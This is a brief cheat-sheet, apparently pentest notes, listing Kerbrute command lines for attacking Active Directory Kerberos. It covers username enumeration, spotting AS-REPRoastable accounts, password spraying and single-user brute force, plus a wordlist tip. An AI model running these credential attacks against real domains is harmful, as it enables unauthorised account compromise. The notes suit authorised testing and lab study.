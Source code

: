 # KERBRUTE (KERBEROS BRUTE FORCE CREDENTIALS)

### Usage: 

#### It can also show you users that can be AS-REPRoasted

 - ./kerbrute userenum --dc DOMAIN_CONTROLLER -d DOMAIN WORDLIST.TXT

#### Password Spray attack

 - ./kerbrute passwordspray -d DOMAIN USERS.TXT PASSWORD

 - ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 WORDLIST.TXT PASSWORD

#### Bruteforce attack

 - ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 WORDLIST.TXT USER

## TIP: Use the xato-net-10-million-usernames.txt wordlist for blind username enumeration
